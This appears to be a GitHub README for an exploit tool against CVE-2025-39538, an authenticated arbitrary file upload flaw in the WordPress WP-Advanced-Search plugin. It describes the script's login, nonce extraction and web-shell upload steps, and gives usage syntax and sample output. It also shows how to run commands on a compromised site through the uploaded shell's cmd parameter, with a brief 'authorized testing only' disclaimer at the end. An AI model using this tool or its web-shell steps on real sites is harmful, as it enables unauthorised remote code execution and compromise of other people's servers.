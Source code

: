
# 🛡️ CVE-2025-39538 - WordPress WP-Advanced-Search <= 3.3.9.3 Arbitrary File Upload

**CVE-2025-39538**  
**Published:** 2025-04-16  
**Vulnerability Type:** Arbitrary File Upload (Unrestricted Upload of File with Dangerous Type)  
**Affected Plugin:** WP-Advanced-Search by Mathieu Chartier  
**Affected Versions:** All versions up to and including 3.3.9.3

This vulnerability allows an authenticated attacker to upload a malicious PHP file (such as a web shell) to the server using the import functionality provided by the plugin. The uploaded file is placed under the WordPress uploads directory and could lead to remote code execution.

🧱 Upload path:
```
wp-content/uploads/2025/04/
```

---

## ⚙️ About the Exploit Script

This Python script performs the following actions:
1. Logs into the WordPress site using provided credentials.
2. Extracts the required `wp_advanced_search_up_nonce` from the import/export admin page.
3. Uploads a web shell (PHP file) via a crafted POST request.

---

## 🚀 Usage

```bash
usage: a.py [-h] -u URL -un USERNAME -p PASSWORD

CVE-2025-39538 - WP Advanced Search Arbitrary File Upload Exploit # By Nxploited (Khaled Alenazi)

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target WordPress URL (e.g., http://127.0.0.1/wordpress)
  -un, --username USERNAME
                        WordPress Username
  -p, --password PASSWORD
                        WordPress Password

```

### 🖥️ Example Output:
```
[*] Attempting login...
[+] Logged in successfully.
[*] Fetching nonce from import/export page...
[+] Nonce extracted: 2140855687
[*] Attempting to upload shell...
[+] File uploaded (check wp-content/uploads or temp directory).
```

---
## 🐚 Using the Uploaded Shell

After the upload, you can access your shell like this:

```
http://target.site/wp-content/uploads/2025/04/nxploit.php?cmd=whoami
```

Replace `whoami` with any Linux command you want to execute, for example:
- `id` — shows current user ID.
- `pwd` — shows current directory.
- `ls` — lists files.
## ⚠️ Disclaimer
---
This tool is intended for **educational and authorized security testing** purposes only.  
The author is **not responsible** for any misuse or damage caused by this script.

---

_**By: Nxploited | Khaled Alenazi**_
